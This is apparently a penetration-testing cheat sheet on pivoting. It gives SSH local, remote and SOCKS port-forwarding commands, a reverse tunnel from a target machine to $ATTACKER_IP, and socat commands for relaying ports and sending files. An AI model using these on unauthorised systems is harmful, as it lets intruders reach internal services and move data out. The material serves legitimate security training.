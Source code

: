 Port forwarding from $TARGET_IP to localhost with SSH
---
```bash
ssh -N -L $LOCAL_PORT:localhost:$PORT $USER@$TARGET_IP
```

```bash
sshpass -p $PASSWORD ssh $USER@$TARGET_IP -L $PORT:127.0.0.1:$PORT
```

or run in background with -f option

```bash
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```bash
service ssh start
```

then on remote machine

```bash
ssh -N -R $REMOTE_PORT:localhost:$PORT $USER@$ATTACKER_IP
```

Proxy on localhost:9090 using SSH and credentials:
(WARNING: Proxy is very unstable if it cannot resolve a host, e.g. http page includes)
```bash
#socks5, localhost:9090 in FoxyProxy
ssh -D 9090 $USER@$TARGET_IP
```

Forward local port to target IP with SOCAT
---
```bash
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

Using SOCAT to send file:
---
On receiving machine

```bash
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```bash
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```